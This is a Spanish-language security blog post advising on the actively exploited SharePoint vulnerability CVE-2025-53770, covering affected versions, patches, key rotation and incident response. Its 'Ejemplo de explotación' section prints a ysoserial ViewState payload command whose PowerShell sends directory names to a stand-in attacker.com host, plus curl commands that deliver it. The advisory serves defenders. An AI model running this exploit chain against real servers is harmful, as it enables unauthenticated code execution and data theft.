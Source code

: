 ```yaml
---
layout: post
title: "Vulnerabilidad Crítica en Microsoft SharePoint"
subtitle: "De criticidad 9.8/10 y bajo exploiting masivo"
date: 2025-07-21
share-img: /assets/img/microsoft-share.png
author: Alexia
tags: [seguridad, vulnerabilidad, sharepoint, sysadmin, microsoft]
---
```


> **Advertencia:** Vulnerabilidad crítica en Microsoft SharePoint permite acceso remoto no autenticado y robo de credenciales. Parches ya disponibles para SharePoint 2019 y Subscription Edition. **Cualquier servidor on-premises expuesto debe considerarse potencialmente comprometido.**

## Resumen

Una vulnerabilidad de **alta gravedad** (CVE-2025-53770, puntaje 9.8/10) en **Microsoft SharePoint Server** está siendo explotada globalmente. Permite a atacantes acceder remotamente sin autenticación, extraer credenciales y datos sensibles, y ejecutar comandos arbitrarios. Investigadores y autoridades recomiendan a cualquier organización con SharePoint on-premises que **asuma que su red podría estar comprometida** si no ha aplicado los parches.

- **Afecta:** SharePoint Server (on-premises) 2019 y Subscription Edition.  
- **No afecta:** SharePoint Online ni Microsoft 365.

## Qué está pasando

Desde el 18 de julio, investigadores han detectado **ataques masivos** usando esta vulnerabilidad para instalar un backdoor (ToolShell) que extrae credenciales (tokens de autenticación) y permite a los atacantes ejecutar comandos en el servidor, escalar privilegios y moverse lateralmente en la red.

### Explotación técnica

El ataque abusa de cómo SharePoint maneja la serialización y el ViewState de ASP.NET. Los atacantes pueden extraer la clave secreta `ValidationKey` del servidor (desde memoria o configuración) y, usando herramientas como `ysoserial`, generar payloads __VIEWSTATE válidos que otorgan **ejecución remota de código (RCE)**, sin necesidad de credenciales.

#### Ejemplo de explotación

```bash
# Obtener el valor __VIEWSTATEGENERATOR desde una página pública de SharePoint
curl -s https://target.com/_layouts/15/start.aspx | grep -oP '__VIEWSTATEGENERATOR" value="\K[^"]+'

# Generar un payload malicioso con ysoserial para listar un directorio y exfiltrar nombres a un servidor externo
ysoserial.exe -p ViewState -g TypeConfuseDelegate \
-c "powershell -nop -c \"dir 'C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\15\TEMPLATE\LAYOUTS' | % { Invoke-WebRequest -Uri ('http://attacker.com/?f=' + [uri]::EscapeDataString($_.Name)) }\"" \
--generator="" \
--validationkey="" \
--validationalg="" \
--islegacy \
--minify

# Usar el token generado para ejecutar comandos en el servidor
curl http://target/_layouts/15/success.aspx?__VIEWSTATE=<payload>
```

Este ataque permite insertar cualquier comando malicioso que el servidor aceptará como si fuera un usuario legítimo, con persistencia y sin requerir autenticación.

Versiones afectadas y parches
SharePoint 2019 y Subscription Edition: Parche ya disponible, aplicar inmediatamente.

SharePoint 2016: Sin parche al momento del aviso. Microsoft recomienda instalar la Antimalware Scan Interface.

Los parches recientes (CVE-2025-53770 y CVE-2025-53771) también refuerzan mitigaciones para vulnerabilidades previas (CVE-2025-49704 y CVE-2025-49706).

Qué hacer si usás SharePoint on-premises
Aplicar los parches oficiales publicados por Microsoft lo antes posible.

- Rotar las claves de máquina de ASP.NET (ValidationKey y DecryptionKey) inmediatamente después de actualizar.

- Reiniciar IIS tras el cambio de claves.

- Auditar actividad reciente en los logs, buscando patrones anómalos y presencia del backdoor ToolShell.

- Consultar los indicadores de compromiso y recomendaciones técnicas publicadas por Eye Security y CISA.

Si tu instancia está expuesta a internet y no tenés certeza de la integridad, asumí compromiso total y considerá plan de respuesta ante incidentes (cambio de credenciales, aislamiento, análisis forense, etc).

Recursos y enlaces útiles: 
[Microsoft Security Update Guide (CVE-2025-53770)](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-53770)

[Eye Security – Indicadores técnicos y análisis de ToolShell](https://www.eye.security/blog/eye-security-uncovers-actively-exploited-zero-day-in-microsoft-sharepoint-cve-2025-53770)



Recordá: Parchar es solo el primer paso. Si tu servidor fue vulnerable, los atacantes pueden haber robado credenciales y claves que permiten atacar otros sistemas más adelante.